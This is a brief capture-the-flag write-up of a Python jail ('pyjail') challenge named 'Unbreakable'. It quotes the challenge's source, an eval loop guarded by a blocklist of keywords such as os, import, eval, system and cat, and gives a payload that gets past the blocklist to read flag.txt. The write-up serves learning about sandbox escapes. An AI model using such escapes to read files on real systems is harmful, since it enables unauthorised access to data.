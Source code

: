 ```yaml
---
title: Unbreakable 
date: 2024-12-10
author: 1byteBoy
tags:
  - Misc
draft: false
---
```


## Description

Unbreakable

Think you can escape my grasp? Challenge accepted! I dare you to try and break free, but beware, it won't be easy. I'm ready for whatever tricks you have up your sleeve!

## Solution

Well for this challenge i had to sell my soul for a bit =]

The challenge comes with a netcat instance and a downlaodable python file

```python
blacklist = [ ';', '"', 'os', '_', '\\', '/', '`',
              ' ', '-', '!', '[', ']', '*', 'import',
              'eval', 'banner', 'echo', 'cat', '%', 
              '&', '>', '<', '+', '1', '2', '3', '4',
              '5', '6', '7', '8', '9', '0', 'b', 's', 
              'lower', 'upper', 'system', '}', '{' ]

while True:
  ans = input('Break me, shake me!\n\n$ ').strip()
  
  if any(char in ans for char in blacklist):
    print(f'\n{banner1}\nNaughty naughty..\n')
  else:
    try:
      eval(ans + '()')
      print('WHAT WAS THAT?!\n')
    except:
      print(f"\n{banner2}\nI'm UNBREAKABLE!\n") 
```

Looking at the file we can see that it's a pyjail type of challenge.

So basically after a lot of trial and error, where at first i was trying to get a shell but then i remembered it is just about reading the file. Which got me the following payload to bypass the blacklist restriction.

```python
print(open('flag.txt').read())
```

Although the value is continated with `()`, it runs and prints the flag and then executes the exception part


## Source of knowledge

https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes\
https://docs.python.org/3/library/functions.html